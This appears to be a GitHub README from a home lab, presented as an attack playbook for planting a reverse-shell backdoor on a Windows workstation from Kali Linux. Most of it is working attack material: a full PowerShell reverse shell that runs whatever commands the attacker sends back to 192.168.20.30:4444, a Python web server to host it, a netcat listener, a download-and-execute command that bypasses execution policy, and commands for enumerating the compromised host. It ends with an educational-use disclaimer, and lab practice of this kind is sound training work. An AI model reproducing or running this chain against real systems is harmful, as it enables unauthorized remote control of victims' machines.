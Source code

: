 
# Reverse Shell Backdoor Attack Playbook

## Overview

This project demonstrates how to create and deploy a malicious PowerShell script to establish a reverse shell on a Windows workstation. The attacker uses Kali Linux to serve the payload and capture the connection, giving them remote access to the victim's machine.

- **Target:** Windows Workstation (SOC.LAB domain)
  - **IP Address:** 192.168.10.20
  - **Domain:** SOC.LAB
- **Attacker:** Kali Linux
  - **IP Address:** 192.168.20.30

## Objective
1. Create a malicious PowerShell script (malicious.ps1) to establish a reverse shell backdoor.
2. Use a web server to serve the payload to the target Windows machine.
3. Make the Windows user download and execute the malicious script.
4. Gain remote access to the victim's machine and execute commands of the attacker's choice.

## Attack Execution Timeline

### 1. **Create Malicious PowerShell Payload**

Firstly, I created a malicious PowerShell script (`malicious.ps1`) that establishes a reverse shell back to my Kali's machine, based on this [git](https://github.com/das-lab/mpsd) and [forum](https://learn.microsoft.com/en-us/defender-endpoint/run-detection-test?source=recommendations&view=o365-worldwide):

```powershell
$client = New-Object System.Net.Sockets.TCPClient("192.168.20.30", 4444)
$stream = $client.GetStream()
$writer = New-Object System.IO.StreamWriter($stream)
$reader = New-Object System.IO.StreamReader($stream)

# Send a message to confirm the connection
$writer.WriteLine("Connected to backdoor!")
$writer.Flush()

while ($true) {
    # Receive command from the attacker
    $command = $reader.ReadLine()
    
    # If the command is "exit", close the connection
    if ($command -eq "exit") {
        break
    }
    
    # Execute the command on the Windows machine and capture output
    $output = Invoke-Expression $command 2>&1
    
    # Send the output back to the attacker
    $writer.WriteLine($output)
    $writer.Flush()
}

# Close the connection
$client.Close()
```

### 2. **Set Up HTTP Server to Serve Payload**

Once the payload script was created, the attacker needed to serve it to the victim machine. This was done by using a simple HTTP server on Kali Linux to host the malicious script:

```bash
python3 -m http.server 80
```

This command starts a web server on port `80` of Kali Linux, making the malicious script accessible to the victim.

### 3. **Start Listener on Kali Linux**

Next, the attacker needs to listen for an incoming connection from the reverse shell. This was done using Netcat (`nc`) on Kali Linux:

```bash
nc -lvnp 4444
```

This command listens on port `4444` and waits for a connection from the victim’s machine once the reverse shell script is executed.

### 4. **Victim Downloads and Executes the Malicious Payload**

The attacker then used the following PowerShell command to force the victim to download and execute the malicious payload:

```powershell
powershell -ExecutionPolicy Bypass -File "http://192.168.20.30/malicious.ps1"
```

This command bypasses the PowerShell execution policy and downloads the malicious script from the attacker’s web server to the target machine. Once executed, the script initiates the reverse shell and connects back to the attacker’s machine.

### 5. **Gaining Access to the Windows Workstation**

Once the malicious PowerShell script was executed on the victim’s machine, the reverse shell successfully connected to the attacker’s machine. The attacker now had remote access to the Windows workstation and could run commands on it.

### 6. **Execute Commands on the Target Machine**

After establishing the reverse shell, the attacker could run various commands to gather information about the system. Some useful commands executed during the attack include:

- **`whoami`** – To confirm the user currently logged in:
  ```bash
  whoami
  ```

- **`tasklist`** – To list all running processes:
  ```bash
  tasklist | Out-String
  ```

- **`net user`** – To list all user accounts on the system:
  ```bash
  net user | Format-Table
  ```

- **`net user labadmin`** – To get detailed information about the `labadmin` user:
  ```bash
  net user labadmin
  ```

These commands helped the attacker confirm the identity of the user, gather information about the system, and identify potential targets for further exploitation.

## Conclusion

In this project, the attacker:

1. **Created Malware**: A malicious PowerShell script (`malicious.ps1`) that establishes a reverse shell backdoor.
2. **Made the Victim Download the Malware**: The attacker used a simple HTTP server to serve the payload and a PowerShell command to make the victim download and execute the script.
3. **Gained Access to the Windows Workstation**: The reverse shell connected back to the attacker’s machine, giving them full remote control over the victim’s system.

With this access, the attacker could now run arbitrary commands, escalate privileges, maintain persistence, and continue exploiting the system.

## Disclaimer

This project is intended for educational purposes only. It demonstrates a common attack technique used in penetration testing to simulate how an attacker might gain remote access to a target system. Unauthorized access to computer systems is illegal and unethical. Always ensure you have explicit permission before conducting any form of penetration testing or attack simulation.
